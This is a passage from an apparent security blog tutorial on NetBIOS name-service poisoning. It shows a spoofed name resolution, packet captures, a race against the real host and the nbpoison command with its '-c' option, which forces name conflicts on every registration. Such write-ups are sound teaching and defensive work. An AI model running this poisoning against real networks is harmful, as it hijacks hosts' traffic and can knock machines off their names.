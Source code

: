 ```
C:Documents and SettingsRon>ping DEMO

Pinging DEMO [1.2.3.4] with 32 bytes of data:

Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 1.2.3.4:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum =  0ms, Average =  0ms
```

Notice that it resolved to my chosen IP!

Here's what the packet capture looks like:

```
192.168.1.41 -> 192.168.1.255	NBNS	Name query NB DEMO<00>
192.168.1.2 -> 192.168.1.41	NBNS	Name query response NB 1.2.3.4
```

Nothing complicated there -- It asks who has DEMO, and I respond saying, "1.2.3.4 does".

Where it gets a little more complicated is when you race another machine. Recall that my boxes are called TEST1 and TEST2. What happens when TEST2 tries to ping TEST1?

```
192.168.1.42 -> 192.168.1.255	NBNS	Name query NB TEST1<00>
192.168.1.41 -> 192.168.1.42	NBNS	Name query response NB 192.168.1.41
192.168.1.2 -> 192.168.1.42	NBNS	Name query response NB 1.2.3.4
```

In this case, TEST2 asks where to find TEST1, and gets two responses: one from TEST1, and one from me. Unfortunately, mine was second, so TEST2 gets the proper address and connects to the proper host.

Obviously, in an attack scenario, this isn't ideal. So, what can we do?

Recall a long time ago (at least, it feels like a long time ago when I'm typing...), I talked about sending a 'Conflict' packet to tell a system its name is already in use. So why don't we send a conflict ourselves?

To do this, we run nbpoison with the '-c' (or 'conflict') switch. This tells it to actively send out conflicts (I left it off by default because it can seriously break things). When that's enabled, it'll respond to every registration with a 'conflict'. Observe:

```
$ sudo ./nbpoison -s 1.2.3.4 -c
QUESTION name registration: (NB:TEST1    <00|workstation>)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1    <00|workstation>): IP: 192.168.1.41, TTL: 300000s
QUESTION name registration: (NB:TEST1     <20|server>)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1    <20|server>): IP: 192.168.1.41, TTL: 300000s
QUESTION name registration: (NB:TEST1    <03|messenger>)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1    <03|messenger>): IP: 192.168.1.41, TTL: 300000s
```
